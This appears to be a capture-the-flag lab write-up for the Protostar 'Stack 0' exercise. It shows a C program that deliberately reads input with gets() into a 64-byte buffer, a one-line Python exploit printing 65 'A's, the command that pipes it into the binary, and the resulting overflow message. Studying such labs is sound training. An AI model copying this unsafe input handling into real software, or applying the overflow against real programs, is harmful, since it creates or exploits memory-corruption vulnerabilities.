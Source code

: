 # Stack 0

Stack 0 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```


Here is the code for cracking the program

Exploit python code (stack0.py)
```python
print("A"*65)
```

Terminal command

```shell
python stack0.py | /opt/protostar/bin/stack0
```

Output

```shell
you have changed the 'modified' variable
```
This is a simple buffer overflow that overwrites an integer variable.
